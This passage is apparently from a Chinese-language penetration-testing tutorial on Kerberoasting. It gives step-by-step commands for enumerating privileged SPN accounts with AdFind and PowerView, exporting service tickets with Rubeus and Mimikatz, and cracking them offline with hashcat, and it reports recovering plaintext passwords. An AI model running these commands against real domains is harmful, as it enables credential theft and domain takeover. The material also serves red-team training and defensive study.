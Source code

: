2. 如果不在域内，但是拥有普通域账户并且能访问到域控，也可以查询
```bash
AdFind.exe -h 192.168.10.2:389 -u test\filepc -up filepc.com -f "&(servicePrincipalName=*)(admincount=1)"  servicePrincipalName
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723113772486-1a1e6059-7c4a-4caf-92fd-38308f789b89.png#averageHue=%233a3938&clientId=ud9049ef5-2ee5-4&from=paste&height=256&id=uef86ae64&originHeight=511&originWidth=2106&originalType=binary&ratio=2&rotation=0&showTitle=false&size=380561&status=done&style=none&taskId=u62b50ec1-c182-44a7-934c-87de08e7566&title=&width=1053)
### PowerView.ps1
```bash
Import-Module .\PowerView.ps1;Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723114210557-afba910d-18ae-4ec2-a2f5-5b0d7ce558bb.png#averageHue=%23050403&clientId=ud9049ef5-2ee5-4&from=paste&height=104&id=uf7523054&originHeight=207&originWidth=2110&originalType=binary&ratio=2&rotation=0&showTitle=false&size=28428&status=done&style=none&taskId=u82225b19-d25d-4e37-8ec0-6ced74dd23c&title=&width=1055)
### MAMdll
地址：[Microsoft.ActiveDirectory.Management.dll](https://github.com/3gstudent/test/blob/master/Microsoft.ActiveDirectory.Management.dll)
```bash
import-module .\Microsoft.ActiveDirectory.Management.dll; get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22971806/1700539028168-d1a27c14-4c06-4efe-aa99-0864fdab5f07.png#averageHue=%23020101&clientId=ub2921268-6b32-4&from=paste&height=123&id=ue6a48a54&originHeight=245&originWidth=2191&originalType=binary&ratio=2&rotation=0&showTitle=false&size=19422&status=done&style=none&taskId=uae6bc41c-f7b0-458e-9846-bf66e1b62bd&title=&width=1095.5)
## 请求服务票据ST并离线爆破
### 使用Rubeus（推荐）
Rubeus 工具里面的 kerberoast 支持对所有用户或者特定用户执行 kerberoasting 操作，其原理在于先用 LDAP 查询域内的 SPN 服务主体名称，然后发送 TGS 包，最后直接打印出能使用 Hashcat 或 John 爆破的 Hash。默认情况下会打印出注册于用户下的所有 SPN 的服务票据的 Hashcat 格式

1. 请求并导出所有ST到hash.txt文件
```bash
Rubeus.exe kerberoast /format:hashcat /outfile:hash.txt
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723114619682-35032733-6920-4fb5-8bdf-3fbf8546ec52.png#averageHue=%234b4a49&clientId=ud9049ef5-2ee5-4&from=paste&height=572&id=ubeb9842d&originHeight=1143&originWidth=2375&originalType=binary&ratio=2&rotation=0&showTitle=false&size=273039&status=done&style=none&taskId=u20eac954-d1c4-431c-acb1-bcf1c9046e5&title=&width=1187.5)

2. 使用hashcat对ST进行离线爆破
```bash
hashcat -m 13100  hash.txt  pass.txt --force
```
如下，成功爆破出这两个服务运行的帐户的明文密码
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723115033766-63f2ec99-0ff7-43f1-bafa-c5a9aab0dce4.png#averageHue=%232e3435&clientId=ud9049ef5-2ee5-4&from=paste&height=464&id=ub20e6404&originHeight=928&originWidth=2148&originalType=binary&ratio=2&rotation=0&showTitle=false&size=454977&status=done&style=none&taskId=u3749984b-b696-4bde-a5da-5f60fb4b265&title=&width=1074)
### 使用 Mimikatz 工具
域内执行

1. **请求并导出服务票据ST**
```bash
#请求并导出所有票据
mimikatz.exe "kerberos::list /export" exit
#清除所有票据
kerberos::purge
```
执行完后，会在mimikatz同目录下导出后缀为kirbi的票据文件。通过前面使用adfind找到了注册在域管下的SPN: MySQL/test.lab:33306，所以该票据为高价值票据
![image.png](https://cdn.nlark.com/yuque/0/2024/png/22971806/1723168721863-4963a147-9c5a-4670-a193-d9bd65efcf75.png#averageHue=%23edeae7&clientId=u0103fe87-4226-4&from=paste&height=106&id=u8378784f&originHeight=212&originWidth=867&originalType=binary&ratio=2&rotation=0&showTitle=false&size=23701&status=done&style=none&taskId=uec2a36a7-2044-454d-a833-0bc66b7e1d2&title=&width=433.5)
